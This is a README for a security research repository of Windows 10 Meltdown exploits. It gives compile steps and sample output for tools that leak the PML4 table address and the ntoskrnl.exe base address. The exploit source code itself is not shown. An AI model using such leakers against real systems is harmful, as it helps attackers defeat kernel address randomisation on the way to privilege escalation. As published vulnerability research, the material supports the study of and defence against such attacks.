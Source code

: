 
#Windows Shadow leaking

This repository contains the Windows Meltdown exploits described in the [Windows Shadow leaking (via Meltdown) blogpost](https://labs.bluefrostsecurity.de/blog/2020/06/30/windows-shadow-leaking-via-meltdown/), which can be used to leak the PML4 table address and the "ntoskrnl.exe" base address in the latest "Windows 10" versions (RS7 and 20H1).

## Sources compilation

Using the Visual Studio 64-bit command line compiler, just follow the steps bellow:

For compiling the PML4 leaker:
- Execute "cl.exe pml4leak-melt.c"

For compiling the NT leaker:
- Execute "cl.exe ntleak-melt.c"

## Output examples

PML4 table address leaker output example:

```
C:\Users\Public>pml4leak-melt.exe

[+] Leaking PML4...
 [+] Try 0/10
[+] Elapsed time: 16 ms
[+] PML4: fffff178bc5e2000 (entry 1e2)

C:\Users\Public>
```

NT base address leaker output example in targets with RAM memory equal or higher than 4GB:

```
C:\Users\Public>ntleak-melt.exe
[+] Win10 build number: 19041
[+] RAM detected: 4GB

[+] Leaking PML4...
 [+] Try 0/10
[+] Elapsed time: 15 ms
[+] PML4: fffff178bc5e2000 (entry 1e2)

[+] Leaking NT base address...
 [+] PML4 entry found: fffff178bc5e2f80 (entry 0x1f0)
  [+] PDPT entry found: fffff178bc5f0000 (entry 0x0)
   [+] PD entry found: fffff178be0003e8 (entry 0x7d)
   [+] PD entry found: fffff178be000518 (entry 0xa3)
    [+] PT entry found: fffff17c000a3108 (entry 0x21)

[+] NT base delta: 0xa21000
[+] NT POINTER: 0xfffff80014621000
[+] NT BASE: 0xfffff80013c00000

[+] Elapsed time: 141 ms
[+] NT base address: 0xfffff80013c00000 (entry 0xa3)

C:\Users\Public>
```
